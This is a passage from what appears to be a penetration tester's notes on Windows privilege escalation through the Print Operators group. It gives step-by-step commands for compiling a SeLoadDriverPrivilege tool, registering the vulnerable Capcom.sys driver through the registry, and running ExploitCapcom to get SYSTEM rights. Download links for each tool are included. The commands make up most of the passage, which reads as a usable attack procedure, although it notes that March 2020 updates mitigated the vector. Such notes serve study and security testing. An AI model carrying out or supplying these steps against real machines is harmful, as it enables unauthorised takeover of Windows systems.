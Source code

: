 > This vector has been mitigated by the March 2020 Windows security updates
{: .prompt-info}

## Print Operators 

Print Operators is another highly privileged group, which grants its members the **SeLoadDriverPrivilege**, rights to manage, create, share, and delete printers. If we issue the command `whoami /priv`, and don't see the **SeLoadDriverPrivilege** from an unelevated context, we will need to bypass UAC.

It's well known that the driver **Capcom.sys** contains functionality to allow any user to execute shellcode with SYSTEM privileges. With [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool we can load the driver. Download it locally and edit it, pasting over the includes below:
```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

Next, from a Visual Studio 2019 Developer Command Prompt, compile it using **cl.exe**:
```console
C:\zeropio> cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

Downlaod the plugin from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) and use the following command:
```console
C:\zeropio> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
```

With Nirsoft's [DriverView.exe](https://www.nirsoft.net/utils/driverview.html) we can verify the driver is not loaded:
```console
PS C:\zeropio> .\DriverView.exe /stext drivers.txt
PS C:\zeropio> cat drivers.txt | Select-String -pattern Capcom
```

Run the **EnableSeLoadDriverPrivilege.exe** binary:
```console
C:\zeropio> EnableSeLoadDriverPrivilege.exe
```

Next, verify that the Capcom driver is now listed:
```console
PS C:\zeropio> .\DriverView.exe /stext drivers.txt
PS C:\zeropio> cat drivers.txt | Select-String -pattern Capcom
```

Now we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom):
```console
PS C:\zeropio> .\ExploitCapcom.exe
```
